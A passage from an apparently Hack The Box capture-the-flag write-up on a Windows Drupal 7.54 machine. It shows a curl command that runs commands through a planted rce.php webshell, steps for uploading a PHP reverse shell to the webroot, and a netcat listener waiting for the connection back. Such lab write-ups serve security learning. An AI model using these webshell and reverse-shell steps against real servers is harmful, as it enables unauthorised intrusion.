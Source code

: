 ```
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.601 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.628 MB
Virtual Memory: In Use:    467 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
                                                          
```

## Gaining Access

Let's see what the current working cirectory is, which should be the webroot:

```
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=cd" 
C:\inetpub\drupal-7.54

```

Now that we know the current directory, let's see if we can upload a file to it. If successful, we should be able to place a PHP reverse shell script into the webroot and then access it to trigger the code execution. We could also poentially upload an ASP reverse shell script, however, we did not try it for this box.

The pentestmonkey script ([https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)) recently got an update which includes a nice clean Windows section. The refreshed version can be obtained from the following github repo:

{% embed url="https://github.com/ivan-sincek/php-reverse-shell" %}

Modify the script with your attack machine IP and the port you want o receive the shell on, and start a netcat listener:

```
└─$ nc -nvlp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999

```
